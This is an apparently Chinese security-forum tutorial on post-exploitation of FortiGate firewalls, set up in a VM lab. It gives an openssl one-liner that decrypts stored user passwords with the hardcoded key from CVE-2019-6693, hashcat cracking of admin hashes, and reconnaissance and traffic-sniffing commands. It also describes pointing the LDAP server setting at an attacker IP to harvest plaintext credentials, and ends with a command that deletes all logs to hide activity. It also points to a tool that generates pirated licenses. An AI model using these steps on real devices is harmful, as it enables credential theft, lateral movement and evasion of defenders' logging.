# foritgate 后利用-先知社区

> **来源**: https://xz.aliyun.com/news/17899  
> **文章ID**: 17899

---

## 环境搭建

### fortigate-vm下载

飞塔vm下载地址

```
https://dl.partian.co/FortiGate/Version_6.00/6.4/6.4.11/
```

使用vmware打开ovf文件，启动fortaigate后初始账号`admin`密码为空，登录成功需要重新设置密码；

  


### 网络配置

#### 网卡配置

`Network Adapter`对应着`port1`，`Network Adapter 2`对应着`port2`，以此类推；  
`Network Adapter`配置外网网段，`Network Adapter 2`配置内网网段；  


配置wan口ip

```
config system interface
edit "port1"
set mode static
set ip 192.168.9.5 255.255.255.0
set allowaccess ping https ssh http telnet
end
```



配置lan口ip

```
config system interface
edit "port2"
set mode static
set ip 192.168.163.2 255.255.255.0
set allowaccess ping https ssh http telnet
end
```



#### 静态路由

```
config router static
edit 1
    set gateway 192.168.9.1 //配置外网网段的网关
    set device "port1" //配置出网口
end
```



配置静态路由后，fortigate即可出网

访问web: `https://192.168.9.5/`



#### 防火墙策略

默认会有一条`Implicit Deny`表示拦截任何流量



配置一条出网策略，这里可以配置的简单点  


### 飞塔激活

<https://github.com/rrrrrrri/fgt-gadgets>  
使用该项目生成License文件，导入后解锁SSLVPN等功能。



### 添加内网主机

将内网主机网卡设置到一个网段中，静态ip随意，网关设置成fortigate的内网网卡ip`192.168.163.2`，即可出网；







## fortigate 后利用

### 密码解密

#### 普通用户密码解密

解密命令：

```
BASE64_ENCODED_PASSWORD='B/+QYaZ79lQzw5Guo2g9VJGtRP63lhfPbu+IeuzS0O2DaLgnc7UU1wIv3TI9bpBLmjhFVA=='
base64 --decode <<<"${BASE64_ENCODED_PASSWORD}" | dd bs=1 skip=4 status=none | openssl enc -d -aes-128-cbc -K 4d617279206861642061206c6974746c -iv "$(base64 --decode <<<"${BASE64_ENCODED_PASSWORD}" | xxd -len 4 -plain)000000000000000000000000" -nopad | sed -e 's/\x00\+$//'
```

github项目地址：`https://github.com/saladandonionrings/cve-2019-6693`;

#### 管理员密码解密

```
hashcat -m 26300 SH2hLwhr34hjEOi/Td0dO8JL5wZKjHstniJ7r8CLZA5TntxQEH9DO+6Hhhmsss=
```

### 流量捕获

#### 功能介绍

##### web界面



**启用数据包捕获**

```
config firewall policy
    edit <id>
        set capture-packet enable
    next
end
```

**禁用硬件加速**  
有些飞塔直接抓包只能捕获到SYN、ACK包，这种情况需要禁用硬件加速(根据想流量捕获的网卡去针对防火墙策略设置)

```
config firewall policy
    edit 1
        set auto-asic-offload disable
end
```

##### cli

cli 命令：

```
diagnose sniffer packet <interface_name> <‘filter’> <verbose> <count> <tsformat>

diagnose sniffer packet wan1 none 6 20000 l

```

详细资料：

```
https://docs.fortinet.com/document/fortigate/6.2.16/cookbook/680228/performing-a-sniffer-trace-cli-and-packet-capture
https://community.fortinet.com/t5/FortiGate/Troubleshooting-Tip-Using-the-FortiOS-built-in-packet-sniffer/ta-p/194222
https://community.fortinet.com/t5/FortiGate/Technical-Tip-Packet-capture-sniffer/ta-p/198313

```

#### 攻击面

通过捕获wan口流量或内网流量，可能存在未加密的流量信息，例如：smtp、http、ldap等；

### 被动信息收集

运行时配置

```
show
```

在线管理员

```
get system admin list
```

网卡信息

```
get system interface
```

静态路由

```
show router static
get router info routing-table static
```

防火墙策略

```
show firewall policy
```

在线vpn用户

```
get vpn ssl monitor
```

系统信息

```
get system status
```

ha状态

```
get system ha status
```

主备机同步

```
diagnose sys ha checksum
```

fortianalyzer设置

```
get log fortianalyzer setting
```

syslog设置

```
get log syslogd setting
```

arp 表

```
get system arp
```

fortiView  
fortiview流量监控可以发现内网存活ip、以及访问的域名，可以判断出其内网员工使用的软件或杀毒软件等信息；

  


### 主动探测

#### ICMP 探测

```
execute ping 8.8.8.8

# 指定源地址192.168.9.5
execute ping-options source 192.168.9.5
```

### 路由跟踪

```
execute traceroute 8.8.8.8
```

#### 端口探测

```
execute telnet 2.2.2.2
```

### ldap

#### ldap配置密码解密

配置文件中的加密过的密码



#### 抓包获取ldap凭据

该加密方式跟普通用户一样，但解密时会存在乱码，可以通过流量捕获功能获取明文密码

功能点：`User & Authentication` -> `LDAP Servers`，进入ldap配置时，fortigate会进行ldap认证测试`Test Connectivity`；  
  


将Server IP 设置为我们自己的ip，即可获取到明文凭据；

  


或用fortigate中的数据包捕获功能进行抓包。

​

#### ldap 认证测试

测试认证命令

```
diagnose test authserver ldap <LDAP server_name> <username> <password>

```

#### ldap DN获取

配置LDAP Server时，选择`Distinguished Name`，可以查看LDAP的`Distinguished Name`；



### 清除日志

清除所有日志

```
execute log delete-all
```
